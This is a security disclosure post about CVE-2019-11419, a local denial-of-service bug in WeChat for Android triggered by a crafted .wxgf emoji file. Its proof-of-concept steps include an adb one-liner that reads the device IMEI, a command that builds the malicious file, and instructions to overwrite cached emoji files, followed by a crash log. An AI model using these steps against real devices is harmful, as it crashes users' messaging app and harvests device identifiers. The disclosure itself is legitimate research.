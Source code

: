 ```yaml
---
title:  "DoS Wechat with an emoji"
date:   2019-05-14 17:22:33 +0800
categories: Hacking
classes:
  - landing
---
```


This DoS bug was reported to Tencent, but they decided not to fix because it's not critical. The Common Vulnerabilities and Exposures (CVE) Program has assigned the ID CVE-2019-11419 to this issue. 

## Description:
vcodec2_hls_filter in libvoipCodec_v7a.so in WeChat application for Android results in a DoS by replacing an emoji file (under the /sdcard/tencent/MicroMsg directory) with a crafted .wxgf file.
Crash-log is provided in poc.zip file at https://drive.google.com/open?id=1HFQtbD10awuUicdWoq3dKVKfv0wvxOKS

## Vulnerability Type:
Denial of Service

## Vendor of Product:
Tencent

## Affected Product Code Base:
WeChat for Android - Up to latest version (7.0.3)

## Affected Component:
Function vcodec2_hls_filter in libvoipCodec_v7a.so

## Attack Type:
Local

## Attack vector:
An malware app can crafts a malicious emoji file and overwrites the emoji files under `/sdcard/tencent/MicroMsg/[User_ID]/emoji/[WXGF_ID]`. Once the user opens any chat messages that contain an emoji, WeChat will instantly crash.

## POC:
Video at https://drive.google.com/open?id=1x1Z3hm4j8f4rhv_WUp4gW-bhdtZMezdU

- User must have sent or received a GIF file in WeChat
- Malware app must retrieve the phone's IMEI. For POC, we can use the below command
```
adb shell service call iphonesubinfo 1 | awk -F "'" '{print $2}' | sed '1 d' | tr -d '.' | awk '{print}' ORS=- 
```
- Produce the malicious emoji file with the retrieved IMEI (use encrypt_wxgf.py in poc.zip):
```
python encrypt.py crash4.wxgf [SIZE_OF_EMOJI_ON_SDCARD]
```
- Replace /sdcard/tencent/MicroMsg/[User_ID]/emoji/[WXGF_ID] with the padded out.wxgf.encrypted
- WeChat will crash now if a message that contains the overwritten emoji file

Crash log:
```
Process:            com.tencent.mm
Crash Thread:       27374(total:122)
Date/Time:          2108-12-12 +8.00 13:34:50.135
Live Time:          35s
Device:             Pixel 2 XL android-27
Exception info:    
Siginfo:            errno:0, pid:0, uid:0, process:
after unwind signal thread
*** *** *** *** *** *** *** *** *** *** *** *** *** *** *** ***
Build fingerprint: google/taimen/taimen:8.1.0/OPM4.171019.021.R1/4833808:user/release-keys
pid: 27147, tid: 27374  >>> com.tencent.mm <<<
signal 11 (SIGSEGV), code 1 (SEGV_MAPERR), fault addr 00000000
after dump thread backtrace
  #00  pc 0x0  <unknown> (???)
  #01  pc 0x1f739b  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (vcodec2_hls_filter+546)
  #02  pc 0x1f8efb  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (vcodec2_hls_filters+134)
  #03  pc 0x1efa5d  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (???)
  #04  pc 0x1ea94f  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (v2codec_default_execute+30)
  #05  pc 0x1f1c59  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (???)
  #06  pc 0x1eaa49  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (v2codec_decode_video2+120)
  #07  pc 0x1e375d  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (Vcodec2DecodeMultipleNals+176)
  #08  pc 0x1e510f  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (CWxAMDecoder::decodeColorComponents(unsigned char*, int)+70)
  #09  pc 0x1e5791  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (CWxAMDecoder::add_buffer(unsigned char*, int, int, StWxAMFrame**)+228)
  #10  pc 0x1e5995  /data/data/com.tencent.mm/app_lib/libvoipCodec_v7a.so (wxam_dec_decode_buffer_3+12)
  #11  pc 0x4c435  /data/app/com.tencent.mm-XUPZwNZyUC6RN4utDMIYMw==/lib/arm/libwechatcommon.so (Java_com_tencent_mm_plugin_gif_MMWXGFJNI_nativeDecodeBufferFrame+148)
  ...
```
